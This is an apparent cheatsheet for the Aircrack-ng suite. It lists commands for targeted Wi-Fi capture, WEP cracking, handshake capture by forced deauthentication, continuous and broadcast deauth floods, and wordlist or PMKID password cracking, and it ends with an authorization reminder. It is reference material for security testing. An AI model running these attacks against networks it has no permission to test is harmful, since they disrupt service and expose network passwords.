 ```yaml
---
title: Aircrack-ng Cheatsheet
description: A comprehensive guide to Aircrack-ng suite commands and best practices
template: doc
---
```



## Table of Contents

- [Basic Commands](#basic-commands)
- [Network Discovery](#network-discovery)
- [Packet Capture](#packet-capture)
- [WEP Attacks](#wep-attacks)
- [WPA/WPA2 Attacks](#wpawpa2-attacks)
- [Client Attacks](#client-attacks)
- [Advanced Operations](#advanced-operations)

## Basic Commands

<Steps>
1. **Interface Management**
   ```bash
   airmon-ng                 # Show wireless interfaces
   airmon-ng check          # Check for interfering processes
   airmon-ng check kill     # Kill interfering processes
   airmon-ng start wlan0    # Start monitor mode
   airmon-ng stop wlan0mon  # Stop monitor mode
   ```

2. **Basic Network Analysis**
   ```bash
   airodump-ng wlan0mon     # Start scanning networks
   aireplay-ng --test wlan0mon  # Test injection capabilities
   ```
</Steps>

## Network Discovery

<Tabs>
  <TabItem label="Basic Scanning">
    ```bash
    airodump-ng wlan0mon
    airodump-ng --band abg wlan0mon    # Scan all bands
    airodump-ng --channel 6 wlan0mon   # Scan specific channel
    ```
  </TabItem>

  <TabItem label="Targeted Scanning">
    ```bash
    airodump-ng --bssid [MAC] --channel [CH] --write capture wlan0mon
    airodump-ng --essid [NAME] --write capture wlan0mon
    ```
  </TabItem>
</Tabs>

## Packet Capture

```bash
airodump-ng --bssid [MAC] -w output wlan0mon  # Basic capture
airodump-ng --bssid [MAC] -c [CH] -w output --output-format pcap wlan0mon  # Full capture
airdecap-ng -b [MAC] output.cap   # Decrypt captured packets
```

## WEP Attacks

<Steps>
1. **Fake Authentication**
   ```bash
   aireplay-ng -1 0 -e [ESSID] -a [MAC] -h [YOUR_MAC] wlan0mon
   ```

2. **ARP Replay Attack**
   ```bash
   aireplay-ng -3 -b [MAC] -h [YOUR_MAC] wlan0mon
   ```

3. **Cracking**
   ```bash
   aircrack-ng -b [MAC] output*.cap
   aircrack-ng -K -b [MAC] output*.cap  # PTW attack
   ```
</Steps>

## WPA/WPA2 Attacks

<Tabs>
  <TabItem label="Capture">
    ```bash
    # Capture handshake
    airodump-ng --bssid [MAC] -c [CH] -w wpa wlan0mon
    # Deauthentication to force handshake
    aireplay-ng -0 1 -a [MAC] -c [CLIENT_MAC] wlan0mon
    ```
  </TabItem>

  <TabItem label="Cracking">
    ```bash
    # Dictionary attack
    aircrack-ng -w wordlist.txt wpa*.cap
    # Using hashcat format
    aircrack-ng -J output wpa*.cap
    # Cracking with rules
    aircrack-ng -r rules.txt -w wordlist.txt wpa*.cap
    ```
  </TabItem>
</Tabs>

## Client Attacks

```bash
# Deauthentication attack
aireplay-ng -0 0 -a [MAC] wlan0mon         # Continuous deauth
aireplay-ng -0 10 -a [MAC] wlan0mon        # Send 10 deauth packets
aireplay-ng -0 0 -a [MAC] -c FF:FF:FF:FF:FF:FF wlan0mon  # Broadcast deauth
```

## Advanced Operations

<Tabs>
  <TabItem label="Fragmentation Attack">
    ```bash
    aireplay-ng -5 -b [MAC] -h [YOUR_MAC] wlan0mon
    packetforge-ng -0 -a [MAC] -h [YOUR_MAC] -k 255.255.255.255 -l 255.255.255.255 -y fragment*.xor -w inject.cap
    ```
  </TabItem>

  <TabItem label="PMKID Attack">
    ```bash
    hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status
    hcxpcaptool -z pmkid.hash pmkid.pcapng
    hashcat -m 16800 pmkid.hash wordlist.txt
    ```
  </TabItem>
</Tabs>

## Best Practices

- Always operate on networks you own or have permission to test
- Keep your Aircrack-ng suite updated
- Use strong wireless adapters with good injection capabilities
- Monitor system logs for errors
- Save captures for analysis
- Use appropriate gain and TX power settings

## Common Workflows

<Steps>
1. **Basic Network Assessment**
   - Start monitor mode
   - Scan for networks
   - Identify target network
   - Capture required packets
   - Analyze collected data

2. **Troubleshooting**
   - Check for interfering processes
   - Verify driver compatibility
   - Test injection capabilities
   - Monitor packet capture quality
   - Verify hardware functionality
</Steps>

## Tips and Tricks

- Use external antennas for better range
- Position yourself closer to the target network
- Avoid running other network-intensive applications
- Keep captures organized with meaningful names
- Use screen or tmux for managing multiple terminals
- Monitor system temperature during intensive operations

Note: This tool should only be used for legitimate network testing and security assessment purposes with proper authorization.
